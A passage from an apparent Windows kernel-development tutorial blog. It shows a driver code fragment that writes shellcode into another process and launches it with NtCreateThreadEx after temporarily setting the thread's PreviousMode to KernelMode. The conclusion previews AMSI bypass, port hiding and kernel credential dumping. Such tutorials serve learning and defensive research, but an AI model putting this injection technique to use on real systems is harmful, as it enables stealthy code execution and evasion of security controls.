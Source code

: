 ```cpp
    shellcodeSize = ShellcodeInfo->ShellcodeSize;

    status = KeWriteProcessMemory(ShellcodeInfo->Shellcode, TargetProcess, remoteAddress, shellcodeSize, UserMode);

    if (!NT_SUCCESS(status))
        goto CleanUp;

    // Making sure that for the creation the thread has access to kernel addresses and restoring the permissions right after.
    InitializeObjectAttributes(&objAttr, NULL, OBJ_KERNEL_HANDLE, NULL, NULL);
    PCHAR previousMode = (PCHAR)((PUCHAR)PsGetCurrentThread() + THREAD_PREVIOUSMODE_OFFSET);
    CHAR tmpPreviousMode = *previousMode;
    *previousMode = KernelMode;
    status = NtCreateThreadEx(&hTargetThread, THREAD_ALL_ACCESS, &objAttr, hProcess, (PTHREAD_START_ROUTINE)remoteAddress, NULL, 0, NULL, NULL, NULL, NULL);
    *previousMode = tmpPreviousMode;

CleanUp:
    if (hTargetThread)
        ZwClose(hTargetThread);

    if (!NT_SUCCESS(status) && remoteAddress)
        ZwFreeVirtualMemory(hProcess, &remoteAddress, &shellcodeSize, MEM_DECOMMIT);

    if (hProcess)
        ZwClose(hProcess);

    if (TargetProcess)
        ObDereferenceObject(TargetProcess);

    return status;
}
```

Unlike the APC injection, the steps here are simple: After the process has been opened and the shellcode was allocated and written to the target process, changing the current thread's mode to `KernelMode` and calling `NtCreateThreadEx` to create a thread inside the target process and restoring it to the original previous mode right after.

## Conclusion

In this blog, we learned about the different types of kernel callbacks and created our registry protector driver.

In the next blog, we will learn how to patch user mode memory from the kernel and write a simple driver that can perform AMSI bypass to demonstrate, how to hide ports and how to dump credentials from the kernel.

I hope that you enjoyed the blog and I'm available on [Twitter](https://twitter.com/Idov31), [Telegram](https://t.me/idov31) and by [Mail](mailto:idov3110@gmail.com) to hear what you think about it!
This blog series is following my learning curve of kernel mode development and if you like this blog post you can check out Nidhogg on [GitHub](https://github.com/idov31/Nidhogg).
